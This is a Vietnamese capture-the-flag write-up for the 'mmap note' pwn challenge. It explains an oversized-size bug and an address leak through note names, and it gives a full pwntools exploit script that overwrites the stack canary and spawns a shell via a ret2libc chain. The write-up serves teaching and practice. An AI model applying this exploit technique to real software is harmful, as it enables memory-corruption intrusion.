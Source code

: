 # mmap note

![description](./descip.png)

---

## overview

![2](./2.png)

Đề bài cho file với đầy đủ cơ chế bảo vệ. File không bị stripped nên sẽ dễ dịch ngược hơn.

![main](./main.png)

Đây là một chương trình để tạo note và ghi note, một dạng rất hay gặp trong các bài về heap. Nhưng thay vì dùng malloc chương trình sẽ dùng mmaap để cấp phát, có 1 số khác biệt bất lợi. Có 5 lựa chọn :

* 1.Add
* 2.edit
* 3.show
* 4.delete
* các lựa chọn khác sẽ call exit

![readchoice](./readchoice.png)

Trong hàm readchoice có một lỗi bufferoverflow có thể dùng để khai thác, nhưng ta phải bypass được stack canary bằng cách leak canary hoặc overwrite giá trị gốc của canary.

![add](./add.png)

Hàm add sẽ tạo một mapped memory, ở đây có 1 số lỗi, khi xác định kích thước
nếu kích thước lớn hơn 0x2000 thì in ra `"Why your note take so much space? Add another one..."` và kết thúc hàm add. Tuy nhiên giá trị nhập vào vẫn được lưu thẳng vào `size[]` dẫn đến ta có thể sử dụng lỗi này để nhập vào dữ liệu lớn hơn 0x2000 byte bằng hàm `edit()` và unmmap với size lớn hơn size ta map ban đầu.

![genName](./genName.png)

Hàm generate_name() tạo name cho note vừa được map từ địa chỉ của note đó. Vậy nên từ tên ta có thể suy ra địa chỉ của note đó.

![delete](./delete.png)

Hàm `delete()` unmmap địa chỉ của note được chọn với size của note đó. Hai hàm còn lại là `show()` và `edit()` sẽ in dữ liệu và sửa dữ liệu tương ứng.

---

## Khai thác

Như đã nói ở trên thì ta phải tìm cách bypass canary để các thể tận dụng lỗi BOF ở hàm `readchoice()`. Vì không thể leak được canary nên ta chỉ có thể overwrite nó. 

![canary](./canary.png)

Khi chạy chương trình, canary được lưu tại một phân vùng phía trước libc. Như vậy mình cần phải làm sao để có thể tạo được 1 note mà được map vào phía trước phân vùng này. Sau đó thay đổi size của note và sử dụng `edit()` để overwrite canary. Một điều quan trọng nữa, phải leak được libc address được sử dụng trong chương trình. Khi lần đầu tiên mình tạo một note có size 0x1000, vùng nhớ này luôn được map vào giữa của ld. Khoảng cách từ libc và ld không đổi nên mình có thể tính được địa chỉ libc. Vì mình có được địa chỉ của note từ tên của nó.

![leak](./leak.png)

Sau khi đã leak được libc từ một note có size 0x1000, mình thử tạo tiếp một note có size 0x2000 thì may mắn note này được map vào liền trước libc và vùng nhớ có chứa canary. Giờ chỉ cần sửa size sau đó overwrite canary. Tuy nhiên khi overwrite canary cần cẩn thận vì phía trước canary có 1 số struct nếu sai giá trị sẽ dẫn đến crash chương trình.

### script exploit local

```python
from pwn import *

# Many built-in settings can be controlled via CLI and show up in "args"
# For example, to dump all data sent/received, and disable ASLR
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
break main
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './chall_patched'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
#context.log_level = 'debug'
# Delete core files after finished
context.delete_corefiles = True

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
p = start()
libc = ELF('./libc.so.6')

def add(idx, size, data):
	p.sendlineafter(b'choice : ', b'1')
	p.sendlineafter(b': ', str(idx).encode())
	p.sendlineafter(b': ', str(size).encode())
	p.sendafter(b': ', data)

def edit(idx, data):
	p.sendlineafter(b'choice : ', b'2')
	p.sendlineafter(b': ', str(idx).encode())
	p.sendafter(b': ', data)

def show(idx):
	p.sendlineafter(b'choice : ', b'3')
	p.sendlineafter(b'? ', str(idx).encode())

def delete(idx):
	p.sendlineafter(b'choice : ', b'4')
	p.sendlineafter(b': ', str(idx).encode())

def change_size(idx, size):
	p.sendlineafter(b'choice : ', b'1')
	p.sendlineafter(b': ', str(idx).encode())
	p.sendlineafter(b': ', str(size).encode())
# leak libc address
alphabet = b'MmApIsSafeDoNtYOuThink'

add(0, 0x1000, b'a\n')
p.recvuntil(b'name: ')
name = p.recvuntil(b'\n')[:-1]
log.info("name: " + name.decode())
mmaped_addr = 0
bit = 0
for i in name:
	mmaped_addr += alphabet.index(i) << bit
	bit += 4
log.info("Leak mmaped address: " + hex(mmaped_addr))
libc.address = mmaped_addr - 0x261000
rop = ROP(libc)
log.info("libc address: " + hex(libc.address))
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret_gadget = rop.find_gadget(['ret'])[0]
system = libc.symbols['system']
binsh = next(libc.search(b'/bin/sh'))
log.info("system: " + hex(system))
log.info("binsh: " + hex(binsh))
log.info("pop rdi: " + hex(pop_rdi))

# overwrite canary
add(1, 0x2000, b'a'*0x2000)
change_size(1, 0x2800)

payload = cyclic(0x26b0) + p64(libc.address + 0x21a580)
payload = payload.ljust(0x2748, b'a')
payload += p64(libc.address - 0x28b8)
payload += p64(libc.address - 0x28c0)
payload = payload.ljust(0x2768, b'a')
payload += p64(0)
payload += b'\n'
'''
Phía trước canary có 1 số giá trị cần phải giữ nguyên, nên ta phải xem giá trị ban đầu của nó là gì
sau đó ghi lại giá trị đó vào đúng địa chỉ
'''
edit(1, payload)
# ret2libc
payload = b'a'*0x18
payload += p64(0)
payload += b'a'*8
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(ret_gadget)
payload += p64(system)

p.sendline(payload)
p.recvuntil(b'choice : ')
p.interactive()
```

![local](./local.png)

exploit thành công trên local

---

## remote exploit

Có lẽ server sử dụng kernel khác so với local của mình nên khi mình thử trên remote thì không thành công. Mình có kiểm tra thử thì thấy khi mình thực hiện `mmap` note thứ 2 thì nó trả về địa chỉ khác so với local. So với khoảng cách từ địa chỉ đó đến địa chỉ bắt đầu của ld và libc thì mình đoán nó được map vào phía trước ld chứ ko phải libc như trên local. Nhưng chỉ cần tạo thêm note và tính toán lại 1 chút thì có thể đạt được mục đích mong muốn. Sẽ có 1 note được map vào phía trước phân vùng chứa canary. Và cần thêm 1 chút guessing và may mắn :V. Well, vì khi viết writeup này server đã đóng nên mình chỉ có thể trình bày phần local exploit thôi. Cảm ơn các bạn đã đọc writeup của mình.
